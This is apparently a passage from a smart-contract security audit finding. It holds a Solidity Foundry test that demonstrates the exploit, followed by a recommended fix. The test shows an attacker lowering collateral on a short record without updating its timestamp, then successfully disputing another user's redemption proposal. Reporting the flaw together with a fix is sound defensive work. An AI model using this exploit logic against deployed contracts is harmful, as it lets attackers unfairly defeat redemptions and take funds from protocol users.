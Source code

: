 ```solidity

    uint256 cr1 = diamond.getCollateralRatio(asset, sr1);
    uint256 cr2 = diamond.getCollateralRatio(asset, sr2);
    uint256 cr3 = diamond.getCollateralRatio(asset, sr3);

    // CRs are increasing
    assertGt(cr2, cr1);
    assertGt(cr3, cr2);

    // user proposes a redemption
    uint88 _redemptionAmounts = DEFAULT_AMOUNT * 2;
    uint88 initialErcEscrowed = DEFAULT_AMOUNT;

    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID, shortId2: C.SHORT_STARTING_ID + 1});

    address redeemer = receiver;
    vm.prank(redeemer);
    diamond.proposeRedemption(asset, proposalInputs, _redemptionAmounts, MAX_REDEMPTION_FEE);

    // attacker decreases collateral of a SR with a CR above the ones in the proposal so that they fall below the CR of the SRs in the proposal
    uint32 updatedAtBefore = getShortRecord(sender, C.SHORT_STARTING_ID + 2).updatedAt;

    vm.prank(sender);
    diamond.decreaseCollateral(asset, C.SHORT_STARTING_ID + 2, 0.3e18);

    uint32 updatedAtAfter = getShortRecord(sender, C.SHORT_STARTING_ID + 2).updatedAt;

    // updatedAt param is not updated when decreasing collateral
    assertEq(updatedAtBefore, updatedAtAfter);

    // attacker successfully disputes the redemption proposal
    address disputer = extra;
    vm.prank(disputer);
    diamond.disputeRedemption({
        asset: asset,
        redeemer: redeemer,
        incorrectIndex: 1,
        disputeShorter: sender,
        disputeShortId: C.SHORT_STARTING_ID + 2
    });
}
```

### Recommended Mitigation Steps

Update the `updatedAt` param when decreasing collateral, or do now allow redemption proposals of SRs above the `initialCR` (as decreasing below that is not possible).

